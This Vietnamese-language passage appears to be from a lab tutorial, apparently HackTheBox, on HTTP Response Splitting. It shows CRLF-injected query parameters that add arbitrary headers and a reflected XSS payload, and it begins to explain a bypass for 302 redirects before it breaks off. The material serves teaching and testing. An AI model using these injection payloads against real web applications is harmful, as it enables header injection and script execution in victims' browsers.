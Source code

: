 Nếu ứng dụng không lọc đúng cách chuỗi CRLF (`%0d%0a`), kẻ tấn công có thể chèn thêm header tùy ý.

#### Ví dụ kiểm tra lỗ hổng bằng CRLF
Yêu cầu HTTP:
```http
GET /?target=http%3A%2F%2Fhackthebox.com%0d%0aTest:%20test HTTP/1.1
Host: responsesplitting.htb
```

Phản hồi từ server:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Refresh: 2; URL=http://hackthebox.com
Test: test
```

Trong phản hồi trên, có thể thấy header `Test: test` đã được chèn vào, chứng minh rằng lỗ hổng **HTTP Response Splitting** tồn tại.

### 3. Khai Thác Lỗ Hổng HTTP Response Splitting

#### a. **Reflected XSS với Payload HTML**
Chúng ta có thể tận dụng lỗ hổng này để thực hiện tấn công **Reflected XSS**. Để khai thác, kẻ tấn công cần chèn hai chuỗi CRLF (`%0d%0a%0d%0a`) để kết thúc phần header và bắt đầu phần body của phản hồi.

**Ví dụ yêu cầu HTTP**:
```http
GET /?target=http%3A%2F%2Fhackthebox.com%0d%0a%0d%0a<html><script>alert(1)</script></html> HTTP/1.1
Host: responsesplitting.htb
```

Phản hồi từ server:
```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8

<html><script>alert(1)</script></html>
```

Khi trình duyệt nhận được phản hồi này, mã JavaScript sẽ được thực thi và hiển thị thông báo `alert(1)`, chứng minh rằng tấn công XSS đã thành công.

#### b. **Khai thác HTTP 302 Redirect**
Trong nhiều trường hợp, ứng dụng web sử dụng header `Location` để điều hướng người dùng với mã trạng thái HTTP 302. Khi đó, trình duyệt sẽ tự động chuyển hướng mà không hiển thị nội dung phản hồi, do đó payload XSS sẽ không được thực thi.

**Ví dụ yêu cầu HTTP không thành công**:
```http
GET /?target=http%3A%2F%2Fhackthebox.com%0d%0a%0d%0a<html><script>alert(1)</script></html> HTTP/1.1
Host: responsesplitting.htb
```

Trình duyệt sẽ chuyển hướng mà không thực thi mã JavaScript. Tuy nhiên, kẻ tấn công có thể vượt qua điều này bằng cách cung cấp một header `Location` rỗng.
